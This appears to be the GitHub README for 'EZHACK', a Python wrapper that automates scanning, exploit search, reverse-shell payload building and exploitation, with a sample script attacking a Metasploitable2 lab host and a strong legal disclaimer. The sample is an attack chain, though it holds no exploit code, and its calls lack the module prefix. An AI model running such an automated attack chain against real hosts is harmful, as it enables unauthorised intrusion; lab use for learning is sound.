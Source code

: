 # EZHACK
Running the same commands can be boring. Why not keep things simple?

This tool is to be used on Kali Linux with only default tools installed (latest version as of March 2019). ParrotOS is what I use and if you have never tried it then I recommend you do! The guide will reference both as Kali for simplicity.
https://www.parrotsec.org/

## Setup

For this project you need Python3.* which comes installed on Kali by default. To get the module run:
`git clone https://github.com/burtonyaboy/ezhack.git`
Then:
`cd ezhack`

*note: all the necessary python modules should be installed, however, if you run into problems, run pip3 install -r requirements.txt* 

In the future, I may write a setup.py, but for now just build your project in the ezhack directory.
To use ezhack import it to your project:
`import ezhack as ez`

## Sample Usage
The functions include scan_for_hosts, scan_target, build_payload, search_for_exploits, exlpoit_target, drop_payload and handle_host. The data is returned to a Host object provided by ezhack, otherwise in json format, with the addition af a scan.xml file generated by nmap for used with searchsploit. Below is an example of a script that attacks a Metasploitable2.

### SERIOUS DISCLAIMER: DO NOT TARGET A NETWORK OR HOST IF YOU DO NOT OWN IT OR DO NOT HAVE EXPLICIT WRITTEN PERMISSION TO DO SO. THE AUTOMATED NATURE OF THIS TOOL MEANS THAT THESE ATTACKS ARE EASY TO DETECT AND ARE WELL KNOWN. IF YOU USE ANY OF THESE TOOLS IN AN ILLEGAL MANNER YOU WILL BE DISCOVERED AND LEGAL ACTION MAY BE TAKEN INCLUDING FINES, COURT MANDATED RESTRICTIONS OR JAILTIME. IF YOU HAVE ANY QUESTION THAT YOU SHOULD NOT BE ATTACKING A NETWORK OR HOST, STOP NOW. I CLAIM NO RESPONSIBILITY FOR HOW YOU DECIDE TO USE THIS TOOL WHICH IS BUILT PURELY FOR EDUCATIONAL AND RESEARCH PURPOSES.
If you have any questions or interest in the penalties for cybercrime, check out these links:
US penalties: https://www.cga.ct.gov/2012/rpt/2012-r-0254.htm
State penalties: http://www.ncsl.org/research/telecommunications-and-information-technology/computer-hacking-and-unauthorized-access-laws.aspx

~~~{.python}
import ezhack as ez

host = ez.Host(ip="192.168.1.3")

def main():
    scan_target(host) # default is aggressive scan
    search_for_exploits(host)
    payload = build_payload(host) # default is reverse shell
    session = exploit_target(host)
    drop_payload(payload,session)
    priv = handle_host(cmd="id")
    print(priv)
    
if __name__ == '__main__':
    main()
~~~

## Notes
This project is still in development. More documentation and functionality will come soon.
